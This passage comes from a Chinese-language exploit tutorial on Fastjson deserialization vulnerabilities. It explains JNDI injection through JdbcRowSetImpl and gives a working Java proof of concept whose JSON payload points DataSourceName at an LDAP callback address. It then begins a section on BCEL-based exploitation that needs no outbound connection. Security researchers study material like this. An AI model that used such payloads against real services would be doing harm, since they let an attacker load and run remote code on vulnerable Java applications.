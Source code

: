 ### 0x01 出网利用

由于本文是对不出网利用进行的分析，这里出网的利用就是引子，不做详细分析。

#### JdbcRowSetImpl

在JdbcRowSetImpl中存在JNDI注入

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-c5945f2e2d5592dc831876e5058091eadb196eb5.png)

这里考虑setAutoCommit

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-e4de11fe08ec69e9b7928884a038ac74346e2b5e.png)

是个set方法

参数是布尔类型的

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-185b3970e41d08896f9fedfb61d5526b35b85ea4.png)

使用Yakit生成一个反连

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-14f1fd93379853ccea334599f5c5336240b32935.png)

构造EXP

首先类名是`com.sun.rowset.JdbcRowSetImpl` 也就是`@type` 的值

接着是`.lookup`的参数`DataSourceName` 也就是rmi或ldap的地址

最后是`AutoCommit` 布尔型的参数

```java
public class FastJsonJdbcRowSetImpl {
    public static void main(String[] args) throws Exception{

        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/ZhALlpnN\",\"AutoCommit\":false}";
        JSON.parseObject(s);
    }
}
```

但是这种利用方式是需要出网的，并且有版本、依赖限制

下面来看一个可以本地利用的

### 0x02 不出网利用

#### BCEL

可以去看P牛的解释[BCEL ClassLoader去哪了 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html)

fastjson≤1.2.24

条件:`BasicDataSource`只需要有`dbcp`或`tomcat-dbcp`的依赖即可，dbcp即数据库连接池，在java中用于管理数据库连接，还是挺常见的。
